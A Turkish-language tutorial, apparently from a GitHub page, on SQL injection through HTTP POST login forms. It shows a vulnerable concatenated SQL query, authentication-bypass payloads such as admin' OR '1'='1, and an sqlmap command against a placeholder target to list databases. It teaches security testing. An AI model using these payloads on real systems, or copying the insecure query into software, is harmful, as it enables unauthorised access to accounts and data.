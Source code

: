 

📌 SQL Enjeksiyonu (SQLi) - POST Metodu Üzerinden Saldırı
POST tabanlı SQL Injection, kullanıcının girdiği verilerin HTTP POST isteği ile sunucuya gönderildiği durumlarda ortaya çıkar. Genellikle giriş formları, arama kutuları ve kullanıcı kayıt formları gibi yerlerde görülür.

1️⃣ POST SQL Injection Mantığı
Bir giriş formu düşünelim:
html
```html
<form action="login.php" method="POST">
<input type="text" name="username">
<input type="password" name="password">
<input type="submit" value="Login">
```
</form>

Eğer arka plandaki SQL sorgusu güvenli değilse, şu şekilde olabilir:
sql
```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```

Bu durumda, username veya password alanına zararlı SQL kodları enjekte edilebilir.

2️⃣ Manuel Olarak POST SQLi Testi
📌 Hedef Site: https://target.com/login.php
📌 POST Verisi:
plaintext
```plaintext
username=admin&password=123456
```

Test etmek için aşağıdaki zararlı girişler denenebilir:

🔹 1. Şifreyi Atlatma
Eğer uygulama doğrudan SQL sorgusuna değerleri ekliyorsa, şu gibi girişler ile kimlik doğrulama atlanabilir:
plaintext
```plaintext
username=admin' --
password=1234
```

Veya:
plaintext
```plaintext
username=admin' OR '1'='1
password=anything
```

📌 Açıklama: Eğer giriş başarılı olursa, 1=1 her zaman TRUE döndüğünden, SQL sorgusu kullanıcıyı yetkili gibi kabul edebilir.

3️⃣ SQLmap ile POST SQLi Testi
SQLmap, POST isteklerini test etmek için mükemmel bir araçtır.
🔹 1. Basit Test (POST SQLi)
Öncelikle, SQLmap ile POST isteğini test edelim:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dbs
```
